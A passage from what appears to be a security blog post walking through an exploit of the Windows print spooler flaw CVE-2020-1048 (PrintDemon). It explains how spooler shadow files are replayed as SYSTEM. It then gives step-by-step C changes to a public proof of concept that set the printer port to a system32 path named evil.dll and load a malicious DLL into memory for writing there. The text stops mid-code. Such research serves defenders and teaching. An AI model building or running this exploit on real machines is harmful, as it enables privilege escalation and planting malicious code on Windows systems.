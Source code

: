 The [blog post](https://windows-internals.com/printdemon-cve-2020-1048/), that I encourage all of you to read, deepens in the process done by the Windows print spooler and its print jobs. When a print job is launched two different kind of files are created in the `C:\Windows\system32\spool\PRINTERS` directory:

- `FPnnnnn.SPL` or `nnnnn.SPL` with the content to be printed. 
- `FPnnnnn.SHD` or `nnnnn.SHD` with all the metadata related to the print job.

I'm not describing the `SHD` file format because this knowledge is not an essential requirement to understand the exploitation process (see [this](https://github.com/ionescu007/PrintDemon) and [this](https://github.com/SafeBreach-Labs/Spooler)). As short, when the spooler service is started it searchs for shadow files (`.SHD`) on his default directory (`C:\Windows\system32\spool\PRINTERS` habitually) checking its content and launching the printing of the associated spool file (`.SPL`) doing this as `SYSTEM` without impersonating the owner user. Now, puzzling all the details it is posible to build a functional PoC.

Using Visual Studio to open the original [solution](https://github.com/ionescu007/PrintDemon), we will first modify the `printserver\pserver.c` file as described next:

{{< highlight c >}}
    LPWSTR g_PortName = L"c:\\windows\\system32\\evil.dll";
{{< /highlight >}}

We will also modify the `hPrinter` and `hMonitor` variable declaration:

{{< highlight c >}}
    HANDLE hPrinter = NULL;
    HANDLE hMonitor = NULL;
{{< /highlight >}}

Next we include the `strsafe.h` header and the next code fragment from this [post](https://stackoverflow.com/questions/14002954/c-programming-how-to-read-the-whole-file-contents-into-a-buffer) at stackoverflow, that will be in charge for storing the malicious DLL content in memory:

{{< highlight c >}}
    FILE* f;
    wchar_t wDirPath[MAX_PATH];
    DWORD dRet;

    dRet = GetCurrentDirectory(MAX_PATH, wDirPath);
    if (dRet == 0)
    {
        printf("GetCurrentDirectory failed (%d)\n", GetLastError());
        goto CleanupPath;
    }
    wcscat_s(wDirPath, sizeof(wDirPath), L"\\evil.dll");

    _wfopen_s(&f, wDirPath, L"rb");
    fseek(f, 0, SEEK_END);
    long fsize = ftell(f);
    fseek(f, 0, SEEK_SET);

    char* string = malloc(fsize + 1);
    fread(string, 1, fsize, f);
    fclose(f);
